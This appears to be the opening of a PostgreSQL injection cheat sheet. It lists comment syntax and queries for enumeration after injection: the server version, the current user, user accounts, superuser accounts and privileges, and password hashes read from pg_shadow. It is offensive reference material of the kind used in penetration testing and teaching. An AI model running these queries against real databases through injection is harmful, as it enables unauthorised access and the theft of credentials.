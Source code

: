 # PostgreSQL



## PostgreSQL injection

## PostgreSQL Comments

```text
--
/**/  
```

## PostgreSQL Version

```text
SELECT version()
```

## PostgreSQL Current User

```text
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

## PostgreSQL List Users

```text
SELECT usename FROM pg_user
```

## PostgreSQL List Password Hashes

```text
SELECT usename, passwd FROM pg_shadow 
```

## PostgreSQL List Database Administrator Accounts

```text
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```

## PostgreSQL List Privileges

```text
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```
